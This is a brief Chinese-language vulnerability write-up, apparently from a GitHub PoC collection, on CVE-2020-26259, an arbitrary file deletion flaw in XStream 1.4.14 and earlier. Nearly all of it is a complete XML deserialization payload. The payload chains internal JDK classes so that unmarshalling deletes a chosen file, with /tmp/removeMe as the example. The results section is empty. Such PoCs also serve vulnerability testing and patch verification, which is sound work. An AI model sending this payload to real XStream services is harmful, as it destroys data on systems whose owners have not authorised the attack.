

# Xstream <= 1.4.14 任意文件删除（CVE-2020-26259）

## 漏洞描述

Xstream <= 1.4.14 任意文件删除

## writeup

- POC

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
              <tempFile>/tmp/removeMe</tempFile>
            </is>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```

## 复现结果

